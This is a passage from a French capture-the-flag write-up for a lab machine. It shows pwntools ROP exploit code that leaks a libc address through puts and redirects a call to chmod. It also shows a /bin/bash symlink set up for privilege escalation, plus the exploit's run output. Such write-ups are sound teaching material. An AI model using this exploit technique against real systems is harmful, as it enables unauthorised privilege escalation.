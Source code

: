 ```python
rop += p64(PUTS_PLT)      # on appelle puts qui est maintenant chmod

log.info(f"Size of ROP: {len(rop)}")

print(P.recv().decode().strip())  # Bannière
# envoi de notre ROP chain qui sera exécutée en deux temps
P.sendline(rop)

# ici on récupère l'adresse leakée
puts_libc = P.recvline().strip()[:8]
puts_libc = u64(puts_libc.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  puts: {hex(puts_libc)}")
LIBC.address = puts_libc - LIBC.symbols["puts"]  # Save LIBC base
log.info("LIBC base @ %s" % hex(LIBC.address))

CHMOD = LIBC.sym["chmod"]
log.info("chmod %s " % hex(CHMOD))
# On envoie l'adresse de chmod, la ROP chain va reprendre son exécution
P.sendline(p64(CHMOD))
```

Je ne suis pas parvenu à faire fonctionne *pwntools* sur le ReverseSSH qui écoutait sur le port 31337 avec l'utilisateur *Boe*. J'ai donc utilisé à la place le vrai serveur SSH avec l'utilisateur *Joxter* mais pour qu'il puisse accéder au binaire *ropit* j'ai du changer auparavant les permissions sur */home/Boe*.  

Avant l'exécution je créé un lien symbolique *zR* pointant vers */bin/bash* :  

```plain
Joxter@moee:~$ ln -s /bin/bash zR 
Joxter@moee:~$ ls -l 
total 4 
-rw-r--r-- 1 root   root   308 Nov 20  2020 flag2.txt 
lrwxrwxrwx 1 Joxter Joxter   9 Jan 29 15:22 zR -> /bin/bash 
Joxter@moee:~$ ls -l /bin/bash  
-rwxr-xr-x 1 root root 1029624 Mar 25  2019 /bin/bash
```

Utilisation de mon exploit avec *pwntools* qui fait sa magie :  

```plain
$ python exploit.py  
[+] Connecting to 192.168.56.19 on port 22: Done 
[*] Joxter@192.168.56.19: 
    Distro    Unknown  
    OS:       linux 
    Arch:     amd64 
    Version:  3.16.0 
    ASLR:     Enabled 
[+] Starting remote process bytearray(b'/home/Boe/ropit') on 192.168.56.19: pid 15518 
[*] '/tmp/chall/libc.so.6' 
    Arch:     amd64-64-little 
    RELRO:    Partial RELRO 
    Stack:    Canary found 
    NX:       NX enabled 
    PIE:      PIE enabled 
[*] '/tmp/ropit' 
    Arch:     amd64-64-little 
    RELRO:    Partial RELRO 
    Stack:    No canary found 
    NX:       NX enabled 
    PIE:      No PIE (0x400000) 
[*] Loaded 14 cached gadgets for '/tmp/ropit' 
[*] puts plt: 0x400430 
[*] puts got: 0x601018 
[*] gets plt: 0x400430 
```
